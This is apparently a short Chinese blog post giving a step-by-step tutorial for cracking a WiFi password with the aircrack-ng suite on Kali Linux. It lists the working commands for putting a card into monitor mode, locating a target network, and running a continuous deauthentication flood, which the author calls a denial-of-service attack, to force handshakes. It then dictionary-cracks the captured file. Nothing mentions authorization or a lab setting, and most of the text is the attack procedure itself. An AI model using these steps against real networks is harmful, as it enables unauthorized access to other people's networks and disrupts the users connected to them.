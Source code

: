 ```yaml
---
title: aircrack破解wifi
date: 2019-03-31 16:11:01
tags:
---
```


aircrack-ng是处理无线的一个工具包，我们使用的是：

- airmon-ng
- airodump-ng
- aireplay-ng
- aircrack-ng

现在要做的是破解一个wifi密码，大体过程为：

1. 配置网卡
2. 探测wifi信息
3. 抓包
4. 破解

# 配置 #
---

用的环境是虚拟机kali，外面接了个ALFA网卡

1. 查看网卡

	执行`ifconfig`,找到了网卡 wlan0

2. 开启网卡

	`ifconfig wlan0 up`

3. 将网卡变成监听模式

	`airmon-ng start wlan0`
	
	然后发现网卡变成了wlan0mon，即监听模式的网卡，此时网卡配置完成

# 探测wifi信息 #
---
`airodump-ng wlan0mon`

抓包查看信息，在ESSID中找到要破解的wifi名字，记下对应的MAC地址(BSSID)和频道(channel,CH)

# 抓包 #
---
为了破解wifi，需要抓取对应wifi的握手包

`airodump-ng --bssid 地址 -c 频道 -w 存储文件名 wlan0mon`

这时候要等有设备连接wifi才会抓到，我们是不会等的，可以用拒绝服务攻击来强制让设备断开连接，不停的重连

新开一个shell

`aireplay-ng -0 0 -a 地址 wlan0mon`

- -0表示用接触认证攻击，后面的参数0表示不断发送攻击数据包
- -a表示AP的MAC
- -c参数可选，表示要被攻击的客户机MAC，不写的表示所有设备

此时看到抓包界面的右上角出现handshake：地址，即抓包完成了

# 破解 #
---

对抓到的包用字典进行破解

`aircrack-ng -w 字典 数据包.cap`